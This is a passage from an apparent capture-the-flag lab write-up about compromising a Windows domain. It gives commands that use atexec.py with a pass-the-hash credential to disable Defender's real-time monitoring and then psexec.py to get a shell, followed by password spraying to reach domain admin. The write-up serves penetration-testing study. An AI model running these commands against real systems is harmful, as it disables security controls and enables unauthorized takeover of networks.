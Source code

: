 <img src="https://i.imgur.com/ilagr5H.png"/>
Since defender was enable on WS01 we couldn't get a shell through psexec.py

<img src="https://i.imgur.com/9AE3MTs.png"/>

We can however use  `atexec.py` to schedule the commands to be executed in order disable defender

<img src="https://i.imgur.com/s34Eutm.png"/>

```bash
atexec.py ws01/administrator@10.10.188.199 'powershell.exe -c "Set-MpPreference -DisableRealtimeMonitoring $true"' -hashes ':a29542cb2707bf6d6c1d2c9311b0ff02'
```

<img src="https://i.imgur.com/eqeH3Op.png"/>
After this, we'll be able to use psexec to get a shell

```bash
psexec.py administrator@WS01.reflection.vl -hashes ':a29542cb2707bf6d6c1d2c9311b0ff02'
```

<img src="https://i.imgur.com/dM52Led.png"/>

As we already dumped hashes, we have Rhys.Garner's password who is a local admin on WS01, this user didn't had any ACLs on any object, checking the domain admins, there are 2 domain admins

<img src="https://i.imgur.com/glE9M4b.png"/>

We can try spraying the password on them to see if we can get access to those users

<img src="https://i.imgur.com/szM2Mt9.png"/>

Which worked on `DOM_RGARNER`, with this we can login on DC01 through winrm and become domain admin

<img src="https://i.imgur.com/mo2lYZR.png"/>

# References

- https://www.trustedsec.com/blog/a-comprehensive-guide-on-relaying-anno-2022/
- https://www.thehacker.recipes/ad/movement/kerberos/delegations/rbcd
- https://tools.thehacker.recipes/impacket/examples/atexec.py

